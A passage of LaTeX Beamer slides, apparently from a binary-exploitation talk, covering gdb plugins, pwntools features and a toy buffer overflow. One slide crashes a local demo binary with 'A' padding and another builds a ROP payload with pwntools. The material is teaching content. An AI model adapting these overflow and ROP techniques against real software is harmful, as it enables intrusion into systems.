    
\includegraphics[width=\textwidth]{../images/gdb-peda.png}
  \end{center}
\end{frame}
}

\begin{frame}
  {Debuggers}

  \begin{itemize}
    \item Use gdb with one of those:
      \begin{itemize}
        \item \href{https://github.com/longld/peda}{PEDA}
        \item \href{https://github.com/hugsy/gef}{GEF}
        \item \href{https://github.com/zachriggle/pwndbg}{pwndbg}
        \item \href{https://github.com/snare/voltron}{voltron}
        \item \href{https://github.com/cyrus-and/gdb-dashboard}{gdb-dashboard}
      \end{itemize}
    \item gdb alternatives: lldb, radare2
    \item Newer debugging approaches
      \begin{itemize}
        \item \href{https://github.com/BinaryAnalysisPlatform/qira}{qira}
        \item \href{http://rr-project.org/}{rr}
      \end{itemize}
  \end{itemize}
\end{frame}


% We don't use it so we don't recommend it?
%\begin{frame}
%  {QIRA -- ``Timeless Debugging''}
%  \todo[inline]{add qira screenshot}
%\end{frame}


% pwntools - build exploits and pwn binaries

\begin{frame}[fragile,plain]

  {\Huge Pwning!}
  \vspace{1em}

  \begin{lstlisting}
$ mkfifo ./fifo
$ ./pwn ./fifo & python -c 'print("A"*4128)' >> ./fifo
[1] 9391
The file has been saved successfully
[1]  + 9391 segmentation fault (core dumped)  ./pwn ./fifo
$ dmesg | tail -n 1
pwn[9391]: segfault at 41414141 ip 0000000041414141
  sp 00000000ffb6d340 error 14
  \end{lstlisting}
\end{frame}


\begin{frame}[fragile]
  {pwntools again!}

  \begin{lstlisting}[language=python]
from pwn import *  # NOQA

velf = ELF("./pwn")
r = ROP(velf)
r.call("exit", [42])
payload = "A" * 4124 + str(r)

# launch process
vp = process(["./pwn", "./fifo"])
gdb.attach(vp)
# break *0x8048f4e

with open("./fifo", "w") as f:
    f.write(payload)

# forward stdin/stdout to process stdin/stdout
vp.interactive()
  \end{lstlisting}
\end{frame}


{\setbeamercolor{background canvas}{bg=black}
\begin{frame}[plain]
  \begin{center}
    
\includegraphics[height=0.7\textheight]{../images/pwntools-exp.png}
  \end{center}
\end{frame}


\begin{frame}[plain]
  \begin{center}
    
\includegraphics[width=\textwidth]{../images/pwntools-shellcraft.png}
  \end{center}
\end{frame}
}

\begin{frame}
  {pwntools/binjitsu}

  \begin{itemize}
    \item I/O abstraction (called Tubes)
    \item ELF parser/info
    \item Return Oriented Programming (ROP)
    \item Shellcode
      \begin{itemize}
        \item plug'n'pwn
        \item shellcode builder
      \end{itemize}
    \item Binary data ``parsing''
    \item \ldots
  \end{itemize}
\end{frame}
